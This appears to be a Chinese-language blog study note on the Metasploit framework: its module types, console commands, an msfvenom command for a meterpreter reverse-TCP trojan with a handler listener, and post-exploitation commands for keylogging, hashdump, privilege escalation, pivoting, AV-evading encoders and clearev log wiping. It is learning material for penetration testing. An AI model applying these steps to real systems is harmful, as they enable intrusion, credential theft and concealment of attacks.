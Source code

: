 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      MSF笔记（一）               # 标题 
subtitle:   回顾整理一下之前的学习笔记
date:       2020-03-30              # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - web漏洞
---
```


## 0x00 Matesploit简单认识：
> Metasploit框架是一个开源工具，方便用于渗透测试，具有很好的拓展性，一般我们在kali进行渗透测试的时候经常会用它，有一个标准的使用流程：
寻找攻击模块->选择漏洞的利用模块并且配置->如有需要使用编码模块中的一个编码技术绕过查杀->渗透攻击->后渗透

**模块学习：**
- 1.auxiliaries（辅助模块）：不会在测试者和目标主机之间建立访问，只负责执行扫描、嗅探、指纹识别等想相关功能以辅助渗透测试
- 2.exploit（渗透利用模块）：包含各种poc验证程序，各种攻击代码
- 3.payload（攻击载荷模块）：攻击载荷是指我们期望目标系统在被渗透攻击之后完成实际攻击功能的代码，我们在该模块可以自由的选择、传送和植入。攻击载荷也可能是简单的在目标操作系统上执行一些命令，如添加用户账号等、
- 4.post（后期渗透模块）：该模块主要用于在取得目标系统远程控制权之后，进行一系列的后渗透攻击动作，如获取敏感信息、实施跳板攻击等、
- 5.encoders（编码模块）：该模块在渗透测试中负责免杀，以防止被杀毒软件、防火墙、ids及类似的安全软件检测出来。

**渗透攻击步骤**
- 在使用msf渗透测试的时候，可以综合利用以上模块，对目标系统进行侦察并发动攻击，大致的步骤如下所示：
- 1、扫描目标机系统，寻找可用漏洞
- 2、选择并配置一个漏洞利用模块
- 3、选择并配置一个攻击载荷模块
- 4、有必要的选择一个编码技术，用来绕过杀毒软件的查杀
- 5、exploit，进行渗透攻击
- msf发动攻击成功后会获取目标主机的shell，攻击机和目标机之间会建立一个shell连接，

**msf常用操作**
- search xxxx ：搜索xxxx攻击利用模块
- use xxxx：使用攻击模块
- 进入攻击模块之后：show options/payloads/targets/advanced/evasion/missing
- set/unset:设置参数、取消设置的参数
- run/exploit:auxiliary模块常用run，exploits模块常用exploit，攻击成功后拿到shell不会立马进入shell，而是以后台的进程存在。
- jobs/kill:在后台运行的job、kill某进程
- info/edit:获取模块的基本信息、编辑当前exploit模块的代码
- check/back：配置完成后，判断目标ip漏洞是否存在，只有少数模块存在check。back指的是返回上一层。
- 对于msf数据库的处理：db_status/db_connect/db_disconnect
- db_import /xx/xx/xx.xml:数据库导入   db_export -f xml /xx/xx/xx.xml数据库导出
- sessions 显示获得的shell连接会话 sessions -i id进入指定id的session

**获取meterpreter会话**
> meterpreter是msf的一个payload，目标执行之后我们会得到一个会话，和常见的shell类似，但是具备更加强大的功能，是执行后渗透的实施通道。

- **通过msfenvom 生成木马获取** 
- 1、常用命令：`msfenvom -p windows/x64/meterpreter_reverse_tcp lhost=本地ip lport=本地监听端口 -f exe -o ./re.exe
- 2、本地监听
-- use exploit/multi/handler
-- set payload windowx/x64/meterpreter_reverse_tcp
-- set lhost ip
-- set lport port
-- run
- 3、投放木马并执行，此时msf便会得到一个meterpreter会话
- **通过cmdshell升级成meterpreter**
-- 如果我们利用msf获得的是cmdshell，该机器适合进行后渗透的话，可以利用命令升级成meterpreter：`sessions -u id`
- **meterpreter常用命令**
- session命令：查看获得的会话，使用-i可以连接到指定id的meterpreter会话
- help/background:帮助信息、后台挂起
- linux命令
- shell：获取目标主机的远程命令行shell
- upload：上传文件到目标主机，ps：`upload re.exe C:\\windows\\system32\`
- download: 下载目标主机的文件到我们的主机上 ，ps：`download C:\\windows\\system32\\config.txt /root/`
- edit: 调用vi编辑器修改文件
- search：在目标机器上查找搜索文件，`ps: search -d c:\\ -f *.dll`
- portfwd :端口转发，`ps: portfwd add -l 1111 -p 8080 -r 192.168.250.176`将8080端口转发到1111端口
- getuid：查看meterpreter注入到目标主机的进程所属用户
- getpid：查看meterpreter注入到目标主机上的注入进程的进程号
- execute：执行命令：一般配合-H隐藏窗口来执行，-f 后面加上文件名。
- run getgui:-e开启远程桌面服务，添加账户为 -u username -p password
- getsystem：提权命令，获取系统最高权限
- keyscan：键盘记录：keyscan_start/keyscan_dump/keyscan_stop
- hashdump:获取系统账号密码
- route命令：路由相关命令，借助该命令我们可以进一步渗透内网，添加一条路由，然后借助当前机器作为跳板攻击内网的其他主机。
- clearev：入侵痕迹擦除，在渗透利用过程中难免留下日志等信息痕迹，所以最后要执行clearev命令后再逃跑。
- 利用后渗透模块的内容进行更多功能的渗透。


